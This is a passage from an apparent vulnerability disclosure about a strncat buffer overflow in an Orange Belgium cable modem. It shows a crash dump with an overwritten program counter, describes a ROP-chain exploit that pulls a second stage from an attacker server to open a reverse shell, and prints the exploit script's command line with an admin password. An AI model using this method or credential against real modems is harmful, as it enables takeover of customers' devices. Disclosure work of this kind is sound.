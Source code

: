 {:.foo}
![insecure strncat]({{site.url}}/assets/insecure_strncat.png)

As we can see in the excerpt below, the return address (PC) has been overwritten with our payload (*0x41414141*).

```
******************** CRASH ********************

Image Name: TCG300-D22F.EG00.15.01.OBE.01.05.11-V-E-170630_sto.bin
Image Path: /home/nick_hsu/Release/1_Orange/CHE1440F_Orange_VOO_v11_20170630/
rbb_cm_src/CmDocsisSystem/ecos/CHE1440F_D22F

Exception code/type: 4 / Address error (load/fetch)    TP0

r0/zero=00000000 r1/at  =00005a00 r2/v0  =00000001 r3/v1  =00000001
r4/a0  =867eef2c r5/a1  =00000000 r6/a2  =00000002 r7/a3  =81390000
r8/t0  =8dcc6d00 r9/t1  =8dcc6d00 r10/t2 =00000002 r11/t3 =00002300
r12/t4 =00000000 r13/t5 =0d004156 r14/t6 =53000100 r15/t7 =0003e800
r16/s0 =41414141 r17/s1 =41414141 r18/s2 =41414141 r19/s3 =41414141
r20/s4 =41414141 r21/s5 =41414141 r22/s6 =41414141 r23/s7 =41414141
r24/t8 =00000000 r25/t9 =00000000 r26/k0 =805199b4 r27/k1 =80e2f864
r28/gp =81971b10 r29/sp =86703fd0 r30/fp =00000001 r31/ra =41414141

PC   : 0x41414141    error addr: 0x41414141
cause: 0x00000010    status:     0x1000d703

BCM interrupt enable: 20000100, status: 00000000
Bad PC.  Using RA for trace.
Bad PC or SP.  Can't trace the stack.

Current thread = 86706004
```

We have developed a stable exploit that will get the attacker a reverse
shell on the device. The exploit overwrites the return address and
follows a ROP chain that gets the device to connect to an arbitrary
server.

The server returns a second stage payload that is copied in
memory by the ROP chain before it executes it by making the program
counter points to that address. Please note that this exploit works
whether console I/O is enabled or not. This means it will work on
production modems deployed by Orange Belgium.

In the excerpt below, we send the exploitation request:

```
python auth_exploit.py -u admin -p cnEv5fuV
[+] Login successful. Sending exploit payload.
```

While in this one, we have our callback server that serves the second
stage and obtain a reverse shell on the device:
